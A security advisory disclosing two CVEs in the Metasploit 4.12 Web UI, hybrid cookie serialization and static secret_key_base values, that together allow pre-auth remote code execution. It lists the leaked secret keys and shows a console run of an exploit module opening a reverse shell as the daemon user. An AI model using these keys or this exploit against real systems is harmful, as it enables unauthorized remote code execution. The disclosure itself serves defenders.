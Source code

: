 The following two issues combine to constitute a pre-auth Remote Code Execution
vulnerability in Metasploit Community, Express and Pro 4.12 where any of
certain Weekly Release updates between 4.12.0-2016061501 and 4.12.0-2016083001
have been applied.

Both issues were patched by Rapid7 in Weekly Release 4.12.0-2016091401

A Metasploit Framework module that exploits these issues has been submitted for
inclusion at <https://github.com/rapid7/metasploit-framework/pull/7341>

CVE-2016-1000243 Metasploit Web UI's `config.action_dispatch.cookies_serializer` is set to `:hybrid`
----------------------------------------------------------------------------------------------------

* OVE ID: OVE-20160904-0001
* Private disclosure date: 2016-09-04
* Public disclosure date: 2016-09-19
* Vendor advisory: <https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401>
* Affected versions: Metasploit 4.12.0 up to and including 4.12.0-2016083001

Rails applications accept signed cookies for managing sessions. Rails prior to
4.1 used Marshal serialization, which allowed for arbitrary instantiation of
objects upon deserialization. Rails 4.1 introduced JSON cookie serialization
`[0]` as the new default. Deserialization of JSON does not allow for arbitrary
object instantiation, making it a much safer configuration in the event that
the cookie signing key becomes known.

Rails 4.1 also introduced 'hybrid' cookie serialization, which allows for
deserialization of both JSON and Marshal serialized cookies. This is to ease
the transition from Rails <4.1 to Rails >=4.1 and avoids the invalidation of
existing sessions when the server crosses that version boundary.

When the cookie serialization setting is either Marshal or hybrid, a remote
unauthenticated attacker with knowledge of the cookie signing key can craft
session cookies that, upon Marshal deserialization, trigger the execution of
arbitrary code `[1]`.

Metasploit Community, Express and Pro has the Web UI's
`config.action_dispatch.cookies_serializer` setting set to `:hybrid` before
Metasploit 4.12.0-2016091401

Rapid7 changed the Metasploit UI's `config.action_dispatch.cookies_serializer`
setting to `:json` in Metasploit 4.12.0-2016091401.

Users should upgrade to Metasploit 4.12.0-2016091401 or newer.

References:

* `[0]` <http://blog.bigbinary.com/2014/12/23/migrating-existing-session-cookies-while-upgrading-to-rails-4-1-and-above.html>
* `[1]` <https://www.rapid7.com/db/modules/exploit/multi/http/rails_secret_deserialization>

CVE-2016-1000244 Metasploit Weekly Release Static `secret_key_base` pre-auth RCE
--------------------------------------------------------------------------------

* OVE ID: OVE-20160904-0002
* Private disclosure date: 2016-09-04
* Public disclosure date: 2016-09-19
* Vendor advisory: https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401
* Affected versions: Metasploit 4.12.0-2016061501 up to and including 4.12.0-2016083001

Metasploit Community, Express and Pro, after having had any of a particular set
of Weekly Release updates applied, will have a static and publicly discoverable
`secret_key_base` value for its Web UI. This allows a remote unauthenticated
attacker to craft a signed cookie that will be deserialized by the application.
Due to the fact that Metasploit has its
`config.action_dispatch.cookies_serializer` setting set to `:hybrid`, this
allows a remote unauthenticated attacker to cause the deserialization of
arbitrary Marshalled objects, resulting in pre-auth RCE as the `daemon` user.

The known `secret_key_base` values are as follows:

```text
4.12.0-2016061501,d25e9ad8c9a1558a6864bc38b1c79eafef479ccee5ad0b4b2ff6a917cd8db4c6b80d1bf1ea960f8ef922ddfebd4525fcff253a18dd78a18275311d45770e5c9103fc7b639ecbd13e9c2dbba3da5c20ef2b5cbea0308acfc29239a135724ddc902ccc6a378b696600a1661ed92666ead9cdbf1b684486f5c5e6b9b13226982dd7
4.12.0-2016062101,99988ff528cc0e9aa0cc52dc97fe1dd1fcbedb6df6ca71f6f5553994e6294d213fcf533a115da859ca16e9190c53ddd5962ddd171c2e31a168fb8a8f3ef000f1a64b59a4ea3c5ec9961a0db0945cae90a70fd64eb7fb500662fc9e7569c90b20998adeca450362e5ca80d0045b6ae1d54caf4b8e6d89cc4ebef3fd4928625bfc
4.12.0-2016072501,446db15aeb1b4394575e093e43fae0fc8c4e81d314696ac42599e53a70a5ebe9c234e6fa15540e1fc3ae4e99ad64531ab10c5a4deca10c20ba6ce2ae77f70e7975918fbaaea56ed701213341be929091a570404774fd65a0c68b2e63f456a0140ac919c6ec291a766058f063beeb50cedd666b178bce5a9b7e2f3984e37e8fde
4.12.0-2016081001,61c64764ca3e28772bddd3b4a666d5a5611a50ceb07e3bd5847926b0423987218cfc81468c84a7737c23c27562cb9bf40bc1519db110bf669987c7bb7fd4e1850f601c2bf170f4b75afabf86d40c428e4d103b2fe6952835521f40b23dbd9c3cac55b543aef2fb222441b3ae29c3abbd59433504198753df0e70dd3927f7105a
4.12.0-2016081201,23bbd1fdebdc5a27ed2cb2eea6779fdd6b7a1fa5373f5eeb27450765f22d3f744ad76bd7fbf59ed687a1aba481204045259b70b264f4731d124828779c99d47554c0133a537652eba268b231c900727b6602d8e5c6a73fe230a8e286e975f1765c574431171bc2af0c0890988cc11cb4e93d363c5edc15d5a15ec568168daf32
4.12.0-2016083001,18edd3c0c08da473b0c94f114de417b3cd41dace1dacd67616b864cbe60b6628e8a030e1981cef3eb4b57b0498ad6fb22c24369edc852c5335e27670220ea38f1eecf5c7bb3217472c8df3213bc314af30be33cd6f3944ba524c16cafb19489a95d969ada268df37761c0a2b68c0eeafb1355a58a9a6a89c9296bfd606a79615
unreleased build,b4bc1fa288894518088bf70c825e5ce6d5b16bbf20020018272383e09e5677757c6f1cc12eb39421eaf57f81822a434af10971b5762ae64cb1119054078b7201fa6c5e7aacdc00d5837a50b20a049bd502fcf7ed86b360d7c71942b983a547dde26a170bec3f11f42bee6a494dc2c11ae7dbd6d17927349cdcb81f0e9f17d22c
```

Code execution can be achieved using the Metasploit Framework module
`exploit/multi/http/rails_secret_deserialization`. Note that, as of the time of
writing, this module does not work against modern Ruby. There is an open PR
`[0]` that fixes the popchain to make this module great again.

A standalone module that exploits this issue has been submitted for inclusion
in Metasploit Framework `[1]`:

```text
msf exploit(metasploit_static_secret_key_base) > info

       Name: Metasploit Web UI Static secret_key_base Value
     Module: exploit/multi/http/metasploit_static_secret_key_base
   Platform: Ruby
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2016-09-15

Provided by:
  Justin Steven
  joernchen of Phenoelit <joernchen@phenoelit.de>

Available targets:
  Id  Name
  --  ----
  0   Metasploit 4.12.0-2016061501 to 4.12.0-2016083001

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                       yes       The target address
  RPORT      3790             yes       The target port
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The path to the Metasploit Web UI
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits the Web UI for Metasploit Community, Express
  and Pro where one of a certain set of Weekly Releases have been
  applied. These Weekly Releases introduced a static secret_key_base
  value. Knowledge of the static secret_key_base value allows for
  deserialization of a crafted Ruby Object, achieving code execution.
  This module is based on
  exploits/multi/http/rails_secret_deserialization

References:
  OVE (20160904-0002)
  https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401

msf exploit(metasploit_static_secret_key_base) > set RHOST 172.18.0.2
RHOST => 172.18.0.2
msf exploit(metasploit_static_secret_key_base) > set PAYLOAD ruby/shell_reverse_tcp
PAYLOAD => ruby/shell_reverse_tcp
msf exploit(metasploit_static_secret_key_base) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(metasploit_static_secret_key_base) > set LPORT 4444
LPORT => 4444
msf exploit(metasploit_static_secret_key_base) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Checking for cookie _ui_session
[*] Searching for proper SECRET
[*] Sending cookie _ui_session
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:47590) at 2016-09-19 19:26:30 +1000

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
exit
^C
Abort session 1? [y/N]  y

[*] 172.18.0.2 - Command shell session 1 closed.  Reason: User exit
```

Rapid7 addressed this issue in Metasploit 4.12.0-2016091401. Upon installing
the update, it will check if one of the known `secret_key_base` values are in
use, and if so, will regenerate it.

Users should upgrade to Metasploit 4.12.0-2016091401 or newer.

References:

* `[0]` <https://github.com/rapid7/metasploit-framework/pull/7304>
* `[1]` <https://github.com/rapid7/metasploit-framework/pull/7341>

Justin Steven

<https://twitter.com/justinsteven>
